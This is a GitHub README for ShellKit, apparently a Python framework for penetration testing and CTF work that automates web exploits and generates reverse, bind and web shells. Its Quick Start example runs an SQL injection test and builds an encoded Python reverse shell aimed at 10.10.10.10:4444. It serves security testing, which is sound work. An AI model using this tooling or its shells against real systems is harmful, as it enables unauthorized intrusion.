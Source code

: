 # 🛡️ ShellKit

<div align="center">

[![Python Version](https://img.shields.io/badge/python-3.12-blue.svg)](https://www.python.org/downloads/)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE.md)
[![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg)](CONTRIBUTING.md)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

</div>

ShellKit is an open-source, Python-based framework designed specifically for rapid development, testing, and automation of web application exploits. Built with the needs of security researchers, penetration testers, and CTF enthusiasts in mind, ShellKit provides a powerful set of tools focused on exploiting common web vulnerabilities like SQL injection, XSS, RCE (Remote Code Execution), file inclusion, and command injection.

## 🚀 Features

### Core Capabilities
* **Vulnerability Testing & Exploitation**
  - SQL Injection (Error-based, Boolean-based, Time-based)
  - Cross-Site Scripting (XSS)
  - Server-Side Template Injection (SSTI)
  - Insecure Deserialization
  - Server-Side Request Forgery (SSRF)
  - Command Injection
  - Prototype Pollution
  - WAF Bypass Techniques

### Advanced Tools
* **Shell Generation & Management**
  - Reverse Shell Generator (Multi-language support)
  - Web Shell Templates
  - Bind Shell Creator
  - Custom Shell Encoding

* **Payload Engineering**
  - Advanced Encoding/Decoding
  - HTTP Request Manipulation
  - Character Set Handlers
  - WAF Evasion Techniques

## 🔧 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/shellkit.git
cd shellkit

# Create and activate virtual environment
python -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate

# Install dependencies
pip install -r requirements.txt

```

## 🎮 Quick Start

```python
from shellkit.sql_injection import SQLInjector
from shellkit.shells import ReverseShellGenerator
from shellkit.encoders import Base64ShellEncoder

# SQL Injection Example
injector = SQLInjector()
result = injector.test_injection(
    url="http://target.com/vulnerable.php",
    parameter="id",
    technique="boolean"
)

# Generate an Encoded Reverse Shell
generator = ReverseShellGenerator()
encoder = Base64ShellEncoder()

shell = generator.generate(
    language="python",
    ip="10.10.10.10",
    port=4444
)

encoded_shell = encoder.encode(shell)
```

## 📚 Documentation

Detailed documentation is available at [docs/](docs/):

- [Getting Started Guide](docs/getting-started.md)
- [Module Reference](docs/modules/)
- [API Documentation](docs/api/)
- [Examples & Tutorials](docs/examples/)

## 🔬 Supported Vulnerabilities

| Vulnerability Type | Status | Description |
|-------------------|---------|-------------|
| SQL Injection | ✅ | Error, Boolean, Time-based methods |
| XSS | ✅ | Reflected, Stored, DOM-based |
| SSTI | ✅ | Multiple template engine support |
| Deserialization | ✅ | Python, PHP, Java formats |
| SSRF | ✅ | Internal/External resource access |
| Command Injection | ✅ | OS command execution |
| Prototype Pollution | ✅ | JavaScript object manipulation |
| WAF Bypass | ✅ | Various evasion techniques |

## 🤝 Contributing

We welcome contributions! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details. Key points:

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## 🔒 Security

- All exploits are designed for authorized testing only
- Review target scope and permissions before testing
- Follow responsible disclosure practices
- Report security issues via our [Security Policy](SECURITY.md)

## 📜 License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.

## 🙏 Acknowledgments

- Contributors & community members
- Open source security tools that inspired this project
- Security researchers who share their knowledge

## 📞 Contact & Support

- Submit bug reports and feature requests via [GitHub Issues](https://github.com/AleksaZatezalo/shellkit/issues)
- Follow updates on [Twitter](https://twitter.com/ZatezaloAleksa)

## ⚠️ Disclaimer

ShellKit is intended for legal security testing only. Users are responsible for obtaining proper authorization before testing any systems. The developers assume no liability for misuse or damage caused by this tool.

---

<div align="center">
Made with ❤️ by the Security Research Community
</div>

## Donation Link

If you have benefited from this project and use Monero please consider donanting to the following address:
47RoH3K4j8STLSh8ZQ2vUXZdh7GTK6dBy7uEBopegzkp6kK4fBrznkKjE3doTamn3W7A5DHbWXNdjaz2nbZmSmAk8X19ezQ
